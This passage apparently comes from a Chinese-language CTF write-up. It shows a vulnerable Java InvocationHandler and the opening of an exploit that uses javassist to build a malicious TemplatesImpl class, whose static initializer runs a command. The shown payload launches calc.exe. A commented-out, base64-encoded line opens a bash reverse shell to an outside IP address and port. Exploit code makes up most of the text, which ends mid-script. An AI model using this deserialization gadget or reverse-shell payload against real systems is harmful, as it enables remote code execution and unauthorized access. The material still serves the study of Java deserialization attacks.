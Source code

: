 MyInvocationHandler,这里实现了应该动态代理，来调用type

```java

package com.example.warmup;  
  
import java.io.Serializable;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
  
public class MyInvocationHandler implements InvocationHandler, Serializable {  
    private Class type;  
  
    public MyInvocationHandler() {  
    }  
  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        Method[] methods = this.type.getDeclaredMethods();  
        Method[] var5 = methods;  
        int var6 = methods.length;  
  
        for(int var7 = 0; var7 < var6; ++var7) {  
            Method xmethod = var5[var7];  
            xmethod.invoke(args[0]);  
        }  
  
        return null;  
    }  
}
```


exp.py 
```java
package com.example.warmup_exp;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import javassist.ClassClassPath;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.math.BigInteger;  
import java.util.*;  
public class exp {  
        public static void main(String[] args) throws Exception {  
            ClassPool pool = ClassPool.getDefault();  
            pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));  
            CtClass cc = pool.makeClass("Cat");  
            //String cmd = "java.lang.Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80OS4yMzIuMjA2LjM3LzIzNDUgMD4mMQ==}|{base64,-d}|{bash,-i}\");";  
            String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";  
  
            // 创建 static 代码块，并插入代码  
            cc.makeClassInitializer().insertBefore(cmd);  
            String randomClassName = "EvilCat" + System.nanoTime();  
```